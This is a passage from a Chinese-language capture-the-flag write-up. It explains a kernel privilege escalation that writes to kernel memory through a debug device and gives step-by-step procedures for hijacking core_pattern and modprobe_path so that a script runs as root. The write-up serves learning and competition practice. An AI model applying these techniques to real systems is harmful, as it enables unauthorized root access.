 至此，只需要知道 offset，我們可以任意的更改 kernel code / data / bss 等擁有固定 offset 的 section，然而，雖然 `/dev/mem` 可讀可寫，但是 page permission 的檢測仍然有效，read-only page 仍然不能 write，否則會出現 kernel panic:

```
BUG: unable to handle page fault for address: ffff888001000000
#PF: supervisor write access in kernel mode
#PF: error_code(0x0003) - permissions violation
PGD 2201067 P4D 2201067 PUD 2202067 PMD 80000000010000e1
Oops: 0003 [#1] SMP PTI
...
```

當初在這邊想很久要改什麼，一開始嘗試找 modprobe_path，不過沒有從 `/proc/kallsyms` 找到，賽後用 gdb 找 .data section 有找到:

```c
(gdb) find 0xffffffff81e00000,0xffffffff81ee1380,"/sbin/modprobe"
0xffffffff81e33b60 ( code_base + 0xe33b60 )
```

不過賽中沒有很清楚 `/dev/mem`，所以花了許多時間看這個東西的相關資訊，沒有想到用這種方法搜。而其他解法是更改 `/proc/sys/kernel/core_pattern` 內所記錄的字串 `core` 成 `|/tmp/pwn`，並觸發 core dump，讓 kernel 在  `do_coredump()` 時 parse `core_pattern` 內的字串，執行指定的 executable 來達成 privilege escalation，而 `core` 字串在 kernel 的 offset 如下:

```c
(gdb) find 0xffffffff81e00000,0xffffffff81ee1380,"core"
0xffffffff81eac2a0 ( code_base + 0xeac2a0 )
```

因此藉著 `hwdbg` 更改 kernel code physical base address + (0xeac2a0 or 0xe33b60)，就能分別改到 `core` 以及 `/sbin/modprobe`，達到 core_pattern 或 modprobe_path hjiack，而實際的運作機制不在這邊做詳細介紹，最後的攻擊步驟如下:

- 走 core_pattern hijack
  1. `cat /proc/iomem` 找到 kernel code physical base address 0x2600000 ( `02600000-03000c36 : Kernel code`)
  2. 透過 `hwdbg` 更改 `0x2600000 + 0xeac2a0` 的內容成 `|/tmp/pwn`
  3. `/tmp/pwn` 內寫入如 `chmod 777 /flag` 的內容，並且要設成 executable (`chmod +x /tmp/pwn`)
  4. 透過 `kill -QUIT <pid>` force trigger core dump，`pid` 可以用 `sleep 100 &` 等方式取得
  5. 在 core dump 過程中 `/tmp/pwn` 會被執行
  6. Enjoy your flag !
- 走 modprobe_path
  1. `cat /proc/iomem` 找到 kernel code physical base address 0x2600000 ( `02600000-03000c36 : Kernel code`)
  2. 透過 `hwdbg` 更改 `0x2600000 + 0xe33b60` 的內容成 `/tmp/x`
  3. `/tmp/x` 內寫入如 `chmod 777 /flag` 的內容，並且要設成 executable (`chmod +x /tmp/x`)
  4. 新增檔案 `/tmp/pwn`，並將內容寫成 `\xff\xff\xff\xff`，改成 executable 且執行
  5. 因為 file format 無法辨識，因此會執行 `modprobe_path` 存的 file，也就是我們竄改成 `/tmp/x` 的地方
  6. Enjoy your flag !



kernel debugging 的相關工具:

- kdump + vmcore
- crash
  - `sudo apt-get install crash`
- `systemtap`

qemu 工具:
